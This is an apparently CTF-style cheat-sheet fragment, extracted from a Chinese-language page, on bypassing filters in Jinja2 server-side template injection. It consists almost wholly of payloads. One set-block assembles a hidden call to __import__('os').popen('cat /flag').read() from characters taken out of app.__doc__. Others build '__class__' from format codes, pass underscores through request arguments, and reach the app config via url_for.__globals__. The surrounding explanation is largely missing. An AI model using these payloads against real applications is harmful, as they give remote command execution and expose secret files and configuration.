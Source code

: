 ```
{% set xhx = (({ }|select()|string|list()).pop(24)|string)%}
{% set sp = ((app.__doc__|list()).pop(102)|string)%}
{% set pt = ((app.__doc__|list()).pop(320)|string)%}
{% set quote = ((app.__doc__|list()).pop(337)|string)%}
{% set lb = ((app.__doc__|list()).pop(264)|string)%}
{% set rb = ((app.__doc__|list()).pop(286)|string)%}
{% set slas = (eki.__init__.__globals__.__repr__()|list()).pop(349)%}
{% set bu = dict(buil=x,tins=xx)|join %}
{% set im = dict(imp=x,ort=xx)|join %}
{% set sy = dict(po=x,pen=xx)|join %}
{% set oms = dict(o=x,s=xx)|join %}
{% set fl4g = dict(f=x,lag=xx)|join %}
{% set ca = dict(ca=x,t=xx)|join %}
{% set ev = dict(ev=x,al=xx)|join %}
{% set red = dict(re=x,ad=xx)|join%}
{% set bul = xhx*2~bu~xhx*2 %}
{% set payload = xhx*2~im~xhx*2~lb~quote~oms~quote~rb~pt~sy~lb~quote~ca~sp~slas~fl4g~quote~rb~pt~red~lb~rb %}

```

> 



> 



```
{{""['{0:c}'['format'](95)+'{0:c}'['format'](95)+'{0:c}'['format'](99)+'{0:c}'['format'](108)+'{0:c}'['format'](97)+'{0:c}'['format'](115)+'{0:c}'['format'](115)+'{0:c}'['format'](95)+'{0:c}'['format'](95)]}}

```

> 



```
{%print (request.args.getlist(request.args.l)|join)%}&amp;l=a&amp;a=_&amp;a=_&amp;a=class&amp;a=_&amp;a=_

```

#### 对象层面禁用

> 



```
{{% set config=None%}} -&gt; {{url_for.__globals__.current_app.config}}

```

> 
